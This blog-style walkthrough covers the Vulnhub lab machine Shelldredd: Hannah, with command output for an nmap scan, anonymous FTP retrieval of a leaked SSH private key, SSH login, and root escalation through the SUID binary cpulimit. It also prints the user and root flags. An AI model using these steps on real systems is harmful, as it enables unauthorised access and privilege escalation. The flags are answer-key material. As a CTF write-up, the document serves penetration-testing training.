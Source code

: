```yaml
---
title: "Shelldredd: Hannah Vulnhub CTF Walkthrough"
---
```

nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/credit-card-scammers]
└─$ nmap -p- -sV 192.168.56.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:27 EDT
Nmap scan report for 192.168.56.110
Host is up (0.0027s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
{% endhighlight %}

Logging into the FTP service anonymously and snooping around:

{% highlight terminal %}
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> 
{% endhighlight %}

We've been given a private key. let's use that to log into the ssh server
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ chmod 700 id_rsa                                                           130 ⨯
                                                                                     
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ ssh hannah@192.168.56.110 -i id_rsa -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  5 09:20:42 2020 from 192.168.1.140
hannah@ShellDredd:~$
{% endhighlight %}

I'm in. lets take a look around for flags and test for a few low hanging fruit. 

first flag: 
{% highlight terminal %}
hannah@ShellDredd:~$ cat user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
{% endhighlight %}


{% highlight terminal %}
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
{% endhighlight %}


Here we can exploit the SUID binary [cpulimit](https://gtfobins.github.io/gtfobins/cpulimit/). 

{% highlight terminal %}
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 823 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# whoami
root
# cd
# ls
user.txt
# cd ../../root
# ls
root.txt
# cat root.txt
yeZCB44MPH2KQwbssgTQ2Nof
# 
{% endhighlight %}
